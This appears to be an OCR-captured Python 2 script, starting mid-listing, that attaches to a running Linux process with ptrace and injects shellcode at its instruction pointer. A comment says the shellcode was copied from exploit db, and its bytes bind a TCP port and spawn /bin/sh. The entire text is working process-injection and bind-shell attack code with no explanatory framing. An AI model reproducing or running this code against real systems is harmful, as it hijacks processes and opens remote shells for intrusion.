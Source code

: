 ```bash
        ("rsp", ctypes.c_ulonglong),
        ("ss", ctypes.c_ulonglong),
        ("fs_base", ctypes.c_ulonglong),
        ("gs_base", ctypes.c_ulonglong),
        ("ds", ctypes.c_ulonglong),
        ("es", ctypes.c_ulonglong),
        ("fs", ctypes.c_ulonglong),
        ("gs", ctypes.c_ulonglong),
    ]

libc = ctypes.CDLL("libc.so.6")

pid=int(sys.argv[1])

# Define argument type and respone type.
libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64

# Attach to the process
libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers=user_regs_struct()

# Retrieve the value stored in registers
libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))

print("Instruction Pointer: " + hex(registers.rip))

print("Injecting Shellcode at: " + hex(registers.rip))

# Shell code copied from exploit db.
shellcode="\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"

# Inject the shellcode into the running process byte by byte.
for i in xrange(0,len(shellcode),4):

  # Convert the byte to little endian.
  shellcode_byte_int=int(shellcode[i:4+i].encode('hex'),16)
  shellcode_byte_little_endian=struct.pack("<I", shellcode_byte_int).rstrip('\x00').encode('hex')
  shellcode_byte=int(shellcode_byte_little_endian,16)

  # Inject the byte.
  libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i),shellcode_byte)

print("Shellcode Injected!!")

# Modify the instuction pointer
registers.rip=registers.rip+2

# Set the registers
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))

print("Final Instruction Pointer: " + hex(registers.rip))

# Detach from the process.
libc.ptrace(PTRACE_DETACH, pid, None, None)
```
